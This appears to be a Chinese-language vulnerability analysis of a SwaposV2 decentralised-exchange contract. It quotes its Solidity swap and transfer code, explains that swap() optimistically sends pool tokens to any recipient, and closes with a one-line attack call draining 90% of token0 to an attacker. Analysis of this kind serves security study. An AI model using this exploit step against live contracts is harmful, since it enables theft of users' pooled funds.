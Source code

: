 ```solidity
        uint amount1In = balance1 > _reserve1 - amount1Out
            ? balance1 - (_reserve1 - amount1Out)
            : 0;
        require(
            amount0In > 0 || amount1In > 0,
            "SwaposV2: INSUFFICIENT_INPUT_AMOUNT"
        );

        {
            uint balance0Adjusted = balance0.mul(10000).sub(amount0In.mul(10));
            uint balance1Adjusted = balance1.mul(10000).sub(amount1In.mul(10));
            require(
                balance0Adjusted.mul(balance1Adjusted) >=
                    uint(_reserve0).mul(_reserve1).mul(1000 ** 2),
                "SwaposV2: K"
            );
        }

        _update(balance0, balance1, _reserve0, _reserve1);
        emit Swap(msg.sender, amount0In, amount1In, amount0Out, amount1Out, to);
    }

```

注意到其中的这两行代码:

```solidity
            if (amount0Out > 0) _safeTransfer(_token0, to, amount0Out); // optimistically transfer tokens
            if (amount1Out > 0) _safeTransfer(_token1, to, amount1Out); // optimistically transfer tokens
```

其中`_safeTransfer`代码如下:

```solidity
    function _safeTransfer(address token, address to, uint value) private {
        (bool success, bytes memory data) = token.call(
            abi.encodeWithSelector(SELECTOR, to, value)
        );
        require(
            success && (data.length == 0 || abi.decode(data, (bool))),
            "SwaposV2: TRANSFER_FAILED"
        );
    }
```

也就是说 `swap()`函数允许外部调用者将池子的中的token0或token1 发送给任意接收方 😱

当然, 代码中有一堆`require`语句用于条件检查, 只要能绕过这些检查, 就能任意转账

假设攻击者要将池中的大部分token0 划转给自己:

```solidity
SwaposV2.swap(<90% of token0 in the pool>, 0, <address of attacker>, "")
```
